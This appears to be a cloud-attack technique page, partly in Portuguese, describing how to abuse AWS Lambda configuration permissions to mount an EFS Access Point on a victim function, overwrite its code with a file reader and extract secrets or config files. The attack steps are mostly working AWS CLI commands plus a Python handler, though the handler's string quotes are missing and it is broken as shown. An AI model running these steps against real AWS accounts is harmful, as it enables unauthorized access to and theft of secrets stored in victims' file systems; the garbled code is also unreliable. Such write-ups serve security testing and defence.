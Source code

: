 # AWS Lambda – EFS Mount Injection via UpdateFunctionConfiguration (Data Theft)

Abuse `lambda:UpdateFunctionConfiguration` para anexar um EFS Access Point existente a uma Lambda, então deployar código trivial que lista/lê arquivos do caminho montado para exfiltrar segredos/configurações compartilhadas que a função anteriormente não conseguia acessar.

## Requirements
- Permissions on the victim account/principal:
- `lambda:GetFunctionConfiguration`
- `lambda:ListFunctions` (to find functions)
- `lambda:UpdateFunctionConfiguration`
- `lambda:UpdateFunctionCode`
- `lambda:InvokeFunction`
- `efs:DescribeMountTargets` (to confirm mount targets exist)
- Environment assumptions:
- Target Lambda is VPC-enabled and its subnets/SGs can reach the EFS mount target SG over TCP/2049 (e.g. role has AWSLambdaVPCAccessExecutionRole and VPC routing allows it).
- The EFS Access Point is in the same VPC and has mount targets in the AZs of the Lambda subnets.

## Attack
- Variables
```
REGION=us-east-1
TARGET_FN=<target-lambda-name>
EFS_AP_ARN=<efs-access-point-arn>
```
1) Anexar o EFS Access Point à Lambda
```
aws lambda update-function-configuration \
--function-name $TARGET_FN \
--file-system-configs Arn=$EFS_AP_ARN,LocalMountPath=/mnt/ht \
--region $REGION
# wait until LastUpdateStatus == Successful
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
2) Sobrescreva code com um leitor simples que lista arquivos e lê os primeiros 200 bytes de um arquivo candidato a secret/config
```
cat > reader.py <<PY
import os, json
BASE=/mnt/ht

def lambda_handler(e, c):
out={ls:[],peek:None}
try:
for root, dirs, files in os.walk(BASE):
for f in files:
p=os.path.join(root,f)
out[ls].append(p)
cand = next((p for p in out[ls] if secret in p.lower() or config in p.lower()), None)
if cand:
with open(cand,rb) as fh:
out[peek] = fh.read(200).decode(utf-8,ignore)
except Exception as ex:
out[err]=str(ex)
return out
PY
zip reader.zip reader.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://reader.zip --region $REGION
# If the original handler was different, set it to reader.lambda_handler
aws lambda update-function-configuration --function-name $TARGET_FN --handler reader.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
3) Invocar e obter os dados
```
aws lambda invoke --function-name $TARGET_FN /tmp/efs-out.json --region $REGION >/dev/null
cat /tmp/efs-out.json
```
A saída deve conter a listagem do diretório em /mnt/ht e uma pequena prévia de um secret/config file escolhido do EFS.

## Impacto

Um atacante com as permissões listadas pode montar arbitrários in-VPC EFS Access Points em funções Lambda da vítima para ler e exfiltrar configurações compartilhadas e secrets armazenados no EFS que antes eram inacessíveis a essa função.

## Limpeza
```
aws lambda update-function-configuration --function-name $TARGET_FN --file-system-configs [] --region $REGION || true
```

